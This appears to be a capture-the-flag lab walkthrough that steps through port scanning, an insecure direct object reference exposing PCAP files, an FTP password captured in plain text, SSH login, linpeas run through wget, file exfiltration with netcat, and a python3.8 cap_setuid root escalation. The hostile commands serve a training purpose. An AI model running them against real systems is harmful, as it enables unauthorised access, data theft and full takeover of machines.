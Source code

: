 ### Task 1

How many TCP ports are open?

```nmap -sS -p- <ip_address>```

- -sS: Stealth Scan, the fastest way to scan ports of the most popular protocol (TCP). 

After scanning, 3 TCP ports are showing to be open.

![alt text](image-c.png)

### Task 2

After running a "Security Snapshot", the browser is redirected to a path of the format /[something]/[id], where [id] represents the id number of the scan. What is the [something]?

Upen the hamburger menu, and click on **Security Snapshot (5 Second PCAP + Analysis)** 

This will redirect you ti a URL with something being **data**. 

### Task 3

Are you able to get to other users' scans?

For this, you can try and change the **id** from **1** to another value. If you try with the value **0** you will see different dashboard, which means you were able to get to other user's scans.

### Task 4 

What is the ID of the PCAP file that contains sensative data?

The page that was found before with the **id** equal to **0** is the one that contains sensative data.

### Task 5

Which application layer protocol in the pcap file can the sensetive data be found in?

When you download and open the file from the dashboard page with **id = 0**, inspect the packets from the Wireshark capture. You will soon find that the sensitive data is in the FTP protocol. Where a request is sent with a password in plain text.

### Task 6

Try to ssh to the target ip address with the user name and the password for you obtained in the previous step. You will see that this will succesfully work. 

```ssh nathan@<target_ip>```

![alt text](image-c-2.png)

### Task 7

Get the user.txt flag from the ftp server.

```wget ftp://user:password@ftp.mydomain.com/path/file.ext```

![alt text](image-c-1.png)

In your host run ```cat user.txt``` and obtain the user flag.

### Task 8

What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?

First clone the reposiroty for using the Linux escalating privelages script. Then make the script executable.

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -O linpeas.sh

chmod +x linpeas.sh

```

Start a Python HTTP server to transfer the script to the target machine.

```python3 -m http.server 8080```

On the target machine, log in with the username **nathan** and his credentials, get the file from your host system.

```
cd /tmp
wget http://<host_ip_address>:8080/linpeas.sh -O linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

and run it saving the output to a text file.
```/tmp/linpeas.sh | tee /tmp/linpeas-output.txt```

You can tranfer this text file to your local machine for further analysis by opening a port to "listen" to a connection and save the incoming data to a new file locally.

```nc -lvnp 4444 > linpeas_output.txt```

From the target machine you can send the file 

```cat linpeas_output.txt | nc 10.10.14.190 4444```

Inspecting the file, under **Files with capabilities** the interesting file is **/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip** which indicates potential privilege escalation allowing changing the user ID to another user (including root)

![alt text](image-c-3.png)

### Task 9 

You can escalate priveleges and switch to root by attempting

 ```/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'```

 then find the flag 

 ```find / -name "root.txt" 2>/dev/null```

 and read the flag by 
```cat /root/root.tx/```




